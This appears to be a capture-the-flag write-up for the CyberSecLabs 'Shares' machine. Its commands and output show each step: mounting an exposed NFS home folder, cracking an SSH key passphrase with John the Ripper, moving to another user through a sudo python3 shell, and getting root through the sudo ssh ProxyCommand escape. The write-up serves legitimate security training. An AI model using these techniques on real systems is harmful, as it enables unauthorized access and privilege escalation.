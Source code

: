 ```yaml
---
title: "Shares"
date: 2022-09-16T18:33:31+01:00
draft: false
categories:
  - Cyberseclabs
---
```


## Enumeration

### nmap:

```
PORT STATE SERVICE REASON VERSION
21/tcp open ftp syn-ack vsftpd 3.0.3

80/tcp open http syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Pet Shop
| http-methods:
|_ Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)

111/tcp open rpcbind syn-ack 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,3,4 111/udp rpcbind
| 100000 3,4 111/tcp6 rpcbind
| 100000 3,4 111/udp6 rpcbind
| 100003 3 2049/udp nfs
| 100003 3 2049/udp6 nfs
| 100003 3,4 2049/tcp nfs
| 100003 3,4 2049/tcp6 nfs
| 100005 1,2,3 33317/tcp6 mountd
| 100005 1,2,3 47026/udp mountd
| 100005 1,2,3 52045/tcp mountd
| 100005 1,2,3 56412/udp6 mountd
| 100021 1,3,4 33401/tcp nlockmgr
| 100021 1,3,4 41275/tcp6 nlockmgr
| 100021 1,3,4 44254/udp nlockmgr
| 100021 1,3,4 60886/udp6 nlockmgr
| 100227 3 2049/tcp nfs_acl
| 100227 3 2049/tcp6 nfs_acl
| 100227 3 2049/udp nfs_acl
|_ 100227 3 2049/udp6 nfs_acl

2049/tcp open nfs_acl syn-ack 3 (RPC #100227)
Service Info: OS: Unix

27853/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 97:93:e4:7f:41:79:9c:bd:3d:d8:90:c3:93:d5:53:9f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCyk8rqOZBxSEXCu+mZCgIQOiHcAg/2ivCFVqGH0ehzvIN3eFZ5jll3zDyKehhaSyYeouoQZbpUk4fmTEqPFdUGjOzXhUhf6pQ0atKx3hms+b5ZLaCL2UjburequfIHCfDCbt6Wbj7dozIMmQ4+qjPQqBkUci7DjCTA/LbxNPL47hoC+3vAvCgRxAK6Yq4tUlil3eSgHX9EeJSxJQpDShPjTZ384+DUMx3VJbXFNBtxsUblPeykzrM18Hill3Yy/D4L9ZW0PJ5P3W+cFQuHc3RWLXCY6S1WmHDxGcI2UA3f2UaBDn2zm3cmgt3yKWTuqY98NlSh880AzmAcS6HpDlY/
|   256 11:66:e9:84:32:85:7b:c7:88:f3:19:97:74:1e:6c:29 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDF3clGPfC6R84UaHxAMoGIYn58Njt+Dth8rsl/Aa8W9SXquC3L+TGPb5dVRArkmCgta+moG16PhstNUHlyNVbA=
|   256 cc:66:1e:1a:91:31:56:56:7c:e5:d3:46:5d:68:2a:b7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGKX5ZbEhRnQU7woPnhhFMtk+c0HJcj0T3xPfAWHTBH9
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


36549/tcp open  mountd  syn-ack 1-3 (RPC #100005)

44829/tcp open  nlockmgr syn-ack 1-4 (RPC #100021)

57327/tcp open  mountd  syn-ack 1-3 (RPC #100005)

```

There is a website running, a pet shop, and a nfs server.

There is not much information on the website and ftp doesn't allow anonymous login, we can try to enumerate the nfs server.

```
$showmount -e 172.31.1.7

Export list for 172.31.1.7:
/home/amir *.*.*.*
```

## Exploitation

Now we know there is a user called amir, and we can try to mount the amir folder on our machine

```
mount -t nfs 172.31.1.7:home/amir /mnt/TempNFS

drwxrwxr-x 5 nair0lf32 docker 4096  2 avril  2020 .
drwxr-xr-x 1 root      root     14 27 oct.  11:41 ..
-rw-r--r-- 1 nair0lf32 docker    0  2 avril  2020 .bash_history
-rw-r--r-- 1 nair0lf32 docker  220  4 avril  2018 .bash_logout
-rw-r--r-- 1 nair0lf32 docker 3786  2 avril  2020 .bashrc
drw-r--r-- 2 nair0lf32 docker 4096  2 avril  2020 .cache
drw-r--r-- 3 nair0lf32 docker 4096  2 avril  2020 .gnupg
-rw-r--r-- 1 nair0lf32 docker  807  4 avril  2018 .profile
drwxrwxr-x 2 nair0lf32 docker 4096  2 avril  2020 .ssh
-rw-r--r-- 1 nair0lf32 docker    0  2 avril  2020 .sudo_as_admin_successful
-rw-r--r-- 1 nair0lf32 docker 7713  2 avril  2020 .viminfo
```

We have access to the .ssh folder with amir's private id_rsa key. We crack that:  
First we use: 

`python2 /usr/share/john/ssh2john.py id_rsa > id_rsa.john` 

to get a john formatted hash file, then we run john on the hash file:

```
john -w=/usr/share/wordlists/rockyou.txt id_rsa.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hello6           (id_rsa)
1g 0:00:00:08 DONE (2021-10-27 11:52) 0.1213g/s 1740Kp/s 1740Kc/s 1740KC/sa6_123..*7¡Vamos!
Session completed


ssh creds:
amir:hello6

```

Now we can ssh as amir using his key...note that ssh is not on port 22

```
ssh amir@172.31.1.7 -i id_rsa -p 27853

amir@shares:/home$ ls
amir  amy
```

There seem to be another user called amy and as amir's folder is empty I guess our user flag is owned by amy.

We check sudo rights for possible lateral movement:

```
$ sudo -l
Matching Defaults entries for amir on shares:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User amir may run the following commands on shares:
    (ALL : ALL) ALL
    (amy) NOPASSWD: /usr/bin/pkexec
    (amy) NOPASSWD: /usr/bin/python3
```

And we can. we can run either python or pkexec as amy.
I chose python because I already know how to work with that one. Gotta explore pkexec too later.

```
sudo -u amy /usr/bin/python3 -c 'import os; os.system("/bin/bash")'
```

And now we are amy. We get User Flag in amy's home folder:  
`cat access.txt`

Now its Privilege Escalation time:

## Privilege Escalation

```
amy@shares:/home/amy$ sudo -l
Matching Defaults entries for amy on shares:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User amy may run the following commands on shares:
    (ALL) NOPASSWD: /usr/bin/ssh
```

Uh ok amy can run ssh as root? let's ask Gtfobins for help here

`sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x`


And Its done, we are root. flag is in the root folder:

` cat system.txt`

And that's it. If you are curious enough remember to try the other way around. and find other methods to get the flags.

By example it seems there is a possible escalation with lxd from amir 'id command' to root.
